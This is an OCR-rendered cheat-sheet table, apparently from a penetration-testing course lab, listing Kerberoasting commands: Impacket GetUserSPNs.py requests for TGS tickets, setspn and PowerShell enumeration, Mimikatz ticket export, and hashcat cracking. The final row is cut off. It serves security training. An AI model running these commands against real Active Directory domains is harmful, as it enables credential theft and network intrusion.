 | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `sudo python3 -m pip install .`                                                                                                                                                                              | Used to install Impacket from inside the directory that gets cloned to the attack host. Performed from a Linux-based host.                                                                       |
| `GetUserSPNs.py -h`                                                                                                                                                                                          | Impacket tool used to display the options and functionality of `GetUserSPNs.py` from a Linux-based host.                                                                                         |
| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday`                                                                                                                                             | Impacket tool used to get a list of `SPNs` on the target Windows domain from a Linux-based host.                                                                                                 |
| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request`                                                                                                                                    | Impacket tool used to download/request (`-request`) all TGS tickets for offline processing from a Linux-based host.                                                                              |
| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev`                                                                                                                        | Impacket tool used to download/request (`-request-user`) a TGS ticket for a specific user account (`sqldev`) from a Linux-based host.                                                            |
| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev -outputfile sqldev_tgs`                                                                                                 | Impacket tool used to download/request a TGS ticket for a specific user account and write the ticket to a file (`-outputfile sqldev_tgs`) linux-based host.                                      |
| `hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt --force`                                                                                                                                       | Attempts to crack the Kerberos (`-m 13100`) ticket hash (`sqldev_tgs`) using `hashcat` and a wordlist (`rockyou.txt`) from a Linux-based host.                                                   |
| `setspn.exe -Q */*`                                                                                                                                                                                          | Used to enumerate `SPNs` in a target Windows domain from a Windows-based host.                                                                                                                   |
| `Add-Type -AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"`                            | PowerShell script used to download/request the TGS ticket of a specific user from a Windows-based host.                                                                                          |
| `setspn.exe -T INLANEFREIGHT.LOCAL -Q */* \| Select-String '^CN' -Context 0,1 \| % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }` | Used to download/request all TGS tickets from a WIndows-based host.                                                                                                                              |
| `mimikatz # base64 /out:true`                                                                                                                                                                                | `Mimikatz` command that ensures TGS tickets are extracted in `base64` format from a Windows-based host.                                                                                          |
| `kerberos::list /export`                                                                                                                                                                                     | `Mimikatz` command used to extract the TGS tickets from a Windows-based host.                                                                                                                    |
| `echo "<base64 blob>" \| tr -d \`                                                                                                                                                                            | Used to prepare the base64 formatted TGS ticket for cracking from Linux-based host.                                                                                                              |